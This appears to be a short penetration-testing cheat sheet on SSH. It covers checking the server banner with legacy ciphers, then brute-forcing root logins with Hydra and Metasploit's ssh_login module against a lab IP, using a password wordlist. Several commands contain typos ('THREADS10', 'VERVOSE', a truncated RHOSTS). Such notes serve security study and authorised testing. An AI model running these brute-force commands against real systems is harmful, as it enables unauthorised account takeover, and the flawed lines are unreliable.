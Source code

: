 # enumerating SSH

PROBABLY NOT USEABLE BUT TRY STUFF ANYWAYS...


Check ssh version and see if its vulnerable

```
ssh <ip> -oKexAlgorithms=+<algorithmgiven> -c <offered-cipher>
#example:
ssh <ip> -oKexAlgorithms=+diffie-hellman-group1-sha1 -c aes128-cbc
```
why do this? to check the banner


# BRUTE FORCE

## Hydra
Use Hydra to brute force

```
hydra -l root -P /usr/share/wordlists/metasploit/unix_passwords.txt ssh://192.168.132.45:22 -t 4 -V
```

## metasploit

```
msf5 > search ssh
msf5 > use 17
msf5 auxiliary(scanner/ssh/ssh_login) > options
msf5 auxiliary(scanner/ssh/ssh_login) > set USERNAME root
msf5 auxiliary(scanner/ssh/ssh_login) > set PASS_FILE /usr/share/wordlists/metasploit/unix_passwords.txt
msf5 auxiliary(scanner/ssh/ssh_login) > set RHOSTS 192.168.132
msf5 auxiliary(scanner/ssh/ssh_login) > set THREADS10
msf5 auxiliary(scanner/ssh/ssh_login) > set VERVOSE true
```
